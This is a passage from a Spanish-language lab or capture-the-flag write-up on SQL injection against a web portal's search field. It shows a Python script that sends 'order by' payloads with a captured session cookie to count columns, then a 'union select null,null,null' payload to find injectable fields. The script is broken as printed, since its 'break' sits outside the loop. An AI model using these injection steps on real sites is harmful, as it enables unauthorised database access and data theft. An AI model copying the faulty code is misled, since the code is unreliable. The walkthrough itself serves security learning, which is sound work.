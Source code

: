 ```python 
	"Upgrade-Insecure-Requests": "1",
	"Origin": "http://10.10.190.112",
	"Content-Type": "application/x-www-form-urlencoded",
	"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, como Gecko) Chrome/125.0.6422.112 Safari/537.36",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
	"Referer": "http://10.10.190.112/portal.php",
	"Accept-Encoding": "gzip, deflate, br",
	"Accept-Language": "en-US,en;q=0.9",
	"Cookie": "PHPSESSID=a275k1lahp79v07sa9j7jn01e1",
	"Connection": "keep-alive"
	}
	
	p1 = log.progress("Buscando las columnas")
	for i in range(10, 2, -1):
		payload = f"searchitem='order+by+{i}+--+-"
		response = requests.post(url, headers=headers, data=payload)
		p1.status(f"buscando por {i} columnas")

	if "Unknown column" not in response.text:
		print(f"La tabla tiene {i} columnas")
		break

if __name__=='__main__':
	busqueda_columnas()
```

La salida al ejecutar este script es la siguiente:

![Pasted-image-20240720181243.png](./assets/Pasted-image-20240720181243.png)


Listo!, ya sabemos que la tabla tiene 3 columnas. Ahora, hay que ver cuales pueden ser inyectables y para eso vamos a utilizar un union select con los 3 campos e iremos reemplazando cada campo con un valor para ver cual es inyectable o no. 

Para ello haremos lo siguiente:

```sql
'union select null,null,null -- -
```

Algunas veces podemos poner 1,2,3 o en este caso intente solo con null por cada campo. La respuesta es la siguiente:

![Pasted-image-20240721014636.png](./assets/Pasted-image-20240721014636.png)
